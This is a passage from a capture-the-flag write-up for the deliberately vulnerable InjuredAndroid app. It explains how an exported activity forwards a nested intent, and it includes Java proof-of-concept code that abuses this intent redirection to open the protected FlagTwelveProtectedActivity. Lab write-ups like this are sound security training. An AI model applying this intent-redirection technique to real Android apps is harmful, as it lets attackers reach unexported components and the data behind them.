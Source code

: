 We observe that when `onResume` is called, the intent passed into `ExportedProtectedIntent` is used again to start a new activity. If we pass an extra into the intent by the name of `access_protected_component`, we can invoke the `FlagTwelveProtected` activity.

Here is some sample code I used to achieve the desired effect, the flag is auto submitted.

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent two = new Intent();
        two.setComponent(new ComponentName("b3nac.injuredandroid", "b3nac.injuredandroid.FlagTwelveProtectedActivity"));
        two.putExtra("totally_secure", "doesn't matter");

        Intent one = new Intent();
        one.setComponent(new ComponentName("b3nac.injuredandroid", "b3nac.injuredandroid.ExportedProtectedIntent"));
        one.putExtra("access_protected_component", two);

        startActivity(one);
    }
}
```
